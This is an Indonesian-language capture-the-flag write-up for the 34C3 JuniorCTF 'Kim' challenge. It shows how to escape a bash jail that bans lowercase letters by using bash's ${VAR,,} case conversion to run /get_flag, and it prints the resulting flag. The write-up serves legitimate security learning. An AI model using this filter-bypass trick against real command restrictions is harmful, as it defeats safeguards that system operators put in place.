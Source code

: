 # 34C3 CTF 2017: JuniorCTF - Kim

**Category:** Miscellaneous
**Description:**

> If you're a baby and know bash, try this:
nc 35.189.118.225 1337

## Write-up

Pada challenge ini kita diberikan sebuah bash shell yang agak restricted, tapi kita diharuskan untuk menjalankan program `get_flag`

```bash
baby> help

    Welcome to babaybash!

    This is a challenge where you find yourself in a bash-jail.

    You want to execute /get_flag to get the flag!

    But the following characters are banned:
        - a-z
        - *
        - ?
        - .
    
    Good luck!

```

Ternyata kita bisa memakai huruf kapital pada bash tersebut

ada banyak cara membuat huruf menjadi lowercase pada bash, baca [disini](https://stackoverflow.com/questions/2264428/converting-string-to-lower-case-in-bash)

Salah satu cara yang paling mungkin adalah dengan menggunakan `VARIABEL="/GET_FLAG";${VARIABEL,,}`

```bash
baby> VARIABEL="/GET_FLAG";${VARIABEL,,}
Usage: /get_flag gimme_FLAG_please
```
Kita modifikasi supaya bisa menjalankan program dengan argumennya
```bash
baby> HURUF1="/GET_FLAG GIMME_";HURUF2="_PLEASE";${HURUF1,,}FLAG${HURUF2,,}
Good job!

Here's your flag: 34C3_LoOks_lik3_y0U_are_nO_b4by_4ft3r_4ll


```

## References

* [k3ramas](http://k3ramas.blogspot.co.id/2017/12/34c3-junior-ctf.html)
* [stackoverflow](https://stackoverflow.com/questions/2264428/converting-string-to-lower-case-in-bash)
